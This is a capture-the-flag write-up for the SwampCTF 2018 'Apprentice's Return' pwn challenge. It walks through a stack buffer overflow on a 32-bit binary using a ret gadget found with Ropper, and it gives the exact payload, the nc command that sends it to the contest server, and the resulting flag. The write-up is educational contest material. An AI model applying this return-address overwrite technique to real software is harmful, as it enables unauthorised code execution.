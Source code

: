 #### SwampCTF 2018 - Apprentice's Return 399 - Pwn

##### Challenge

For one such as yourself, apprentice to the arts of time manipulation, you must pass this first trial with a dreadful creature.

Connect:
nc chal1.swampctf.com 1802




##### Solution

File:

```
return: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5e510acf107cc9f91edd02f76f14598fcb30de6b, not stripped
```

First, we have to know what is the functionality of the program. To do it, we did reverse engineering to understand the program. 

Summarizing, the program gets a string of maximum length (50 chars) and check that in the position 42 of this string is less or equal than "0x8048595", if this condition is ok, we will avoid the exit function and we will jump to the final of the function doBattle. 

![](https://unam.re/static/files/apprentice_return_1.png)


Finally, in the return of the function doBattle we will overwrite the original address with the function that execute system.

![](https://unam.re/static/files/apprentice_return_2.png)

The difficulty is that the address of the comparison and where we will jump need to be less than 0x8048595, so we need to find a "ret" instruction in a position less of 0x8048595

```bash
$ ./Ropper.py --file ~/CTF/SWAMPCTF/pwn/return --search "ret"
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: /home/manu/CTF/SWAMPCTF/pwn/return
0x08048545: ret 0x2b76; 
0x0804853e: ret 0x95b8; 
0x0804847e: ret 0xeac1; 
0x080485ea: ret 0xfffd; 
0x0804835a: ret; 
```

0x0804835a is perfect for our purpose. So, we just need to write the address of the function that perform the system function after than 0x0804835a.

![](https://unam.re/static/files/apprentice_return_3.png)

The final exploit:

```
"A"*42+<ret address>+<slayTheBeast function>
```

###### Exploitation

```bash
$ python -c 'print "A"*42+"\x5a\x83\x04\x08"+"\xdc\x85\x04\x08"' > input
$ cat input | nc chal1.swampctf.com 1802
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 
Your actions take the Allip by surprise, causing it to falter in its attack!  You notice a weakness in the beasts form and see a glimmer of how it might be defeated.
Through expert manouvering of both body and mind, you lash out with your ethereal blade and pierce the beast's heart, slaying it.
As it shimmers and withers, you quickly remember to lean in and command it to relinquish its secret: 
flag{f34r_n0t_th3_4nc13n7_R0pn1qu3}
```

